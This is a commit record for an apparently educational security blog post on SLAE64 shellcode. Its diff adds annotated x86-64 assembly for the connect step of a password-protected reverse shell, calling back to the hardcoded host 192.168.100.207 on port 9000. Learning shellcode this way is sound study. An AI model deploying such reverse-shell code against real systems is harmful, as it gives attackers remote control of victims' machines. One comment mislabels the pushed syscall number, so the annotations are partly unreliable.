

Before and after one commit to whitecr0wz/whitecr0wz.github.io, a Jekyll site: the page built from _posts/posts/2021-01-14-SLAE64-Reverse-Password.md, in a window 1280 px wide and 1400 px high, scrolled down 1369 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 2014 px from its top, so only the background shows below that.

Commit message:
Update 2021-01-14-SLAE64-Reverse-Password.md

````diff
--- a/_posts/posts/2021-01-14-SLAE64-Reverse-Password.md
+++ b/_posts/posts/2021-01-14-SLAE64-Reverse-Password.md
@@ -105,3 +105,48 @@ socket:
 
        mov rbx, rax           ; The value of RAX is saved on RBX. Such value will later on be used for sockfd arguments.
 ```
+
+##### Connect
+
+manpage arguments: ```int connect(int sockfd, const struct sockaddr *addr, socklen_t addrlen);```
+
++ RBP stores value "192.168.100.207" in reverse and hex as well.
++ RAX obtains the syscall value.
++ RDI satisfies the sockfd argument, by copying the value in RBX.
++ 0 is pushed through RDX.
++ The value in RBP is pushed.
++ "9000" is pushed within the hex format.
++ "AF_INET" is pushed within the hex format.
++ The value of RSP is copied into RSI.
++ DL is given a length of 50.
++ The syscall is executed.
++ RSI is zeroed out.
++ RSI is given a value of 3, as the following function is dup2
+
+```term
+connect:
+
+       mov rbp, 0xcf64a8c0    ; Saves "192.168.100.207" in hex and reverse order, storing it in RBP
+
+       push word 42           ; Pushes word 41 (connect) into the stack.
+       pop ax                 ; Pops such word into ax so there are no nulls.
+
+       mov rdi, rbx           ; Copies the value from RBX to RDI, granting RDI the sockfd value from the socket syscall.
+
+       push rdx               ; Pushes 0
+
+       push rbp               ; Pushes the value of RBP into the Stack.
+       push word 0x2823       ; Pushes the word 9000 into the stack.
+       push word 0x02         ; Pushes AF_INET into the stack.
+
+       mov rsi, rsp           ; Copies the value of RSP into RSI.
+
+       mov dl, 50             ; This argument requires the length of the struct, anything above 16 should work.
+       syscall                ; The syscall is executed.
+
+       xor rsi, rsi           ; Zeroes out RSI
+
+       inc rsi                ; Increments RSI.
+       inc rsi                ; Increments RSI.
+       inc rsi                ; Increments RSI. This will work as a counter, for the dup2 syscall, by incrementing RSI by three times NULLs are prvented.
+```
````
